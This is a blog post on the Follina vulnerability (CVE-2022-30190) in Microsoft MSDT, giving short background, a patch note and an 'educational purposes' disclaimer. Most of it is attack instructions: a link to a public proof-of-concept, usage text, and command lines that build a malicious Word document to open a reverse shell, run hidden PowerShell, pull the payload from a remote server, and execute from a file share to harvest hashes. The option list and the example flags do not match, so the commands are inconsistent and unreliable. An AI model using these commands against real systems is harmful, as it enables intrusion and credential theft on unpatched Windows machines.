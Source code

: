 ```yaml
---
title: "Follina Vulnerability"
date: 2022-08-20T08:06:25+06:00
description: New Vulnerability Exploited in the Wild
menu:
  sidebar:
    name: Follina
    identifier: follina-vulneraility
    parent: vulnerabilities
    weight: 30
author:
  name: Vincent M
  image: /images/author/sila.png
tags: ["Basic", "InfoSec"]
categories: ["InfoSec"]
---
```

### CVE-2022-30190 Microsoft MSDT Vulnerability

A new vulnerability has been discovered in Windows that is critical and can be exploited by attackers.

The vulnerability is called “Follina”, and it affects all versions of Windows from Vista to Windows 10.

This vulnerability is known to have been exploited in the wild, but Microsoft has already released a patch for this vulnerability.

I will be going into an in depth how to guide on how to Exploit the Flaw in my next post to showcase how easy it is for attackers out there.

I will also provide measures of mitigating it with the simplest being updating your windows OS as the vulnerability has been patched

## DISCLAIMER: All Information covered in my posts are for Educational purposes ONLY.

Proof of concept code has been hosted on github. Clone the repo below

>https://github.com/JohnHammond/msdt-follina.git

This POC attacks MSDT using a Microsoft Word doc as a delivery mechanism to stage a payload. In this case the payload is calc

>USAGE
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

>options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)

Running the following command generates a word document with reverse shell to a nectat listener on port 9001

> python3 follina.py -r 9001


Different options can be passed to the code for a number of scenario attacks

># Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

># On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

># Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

># Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

># Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

># Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
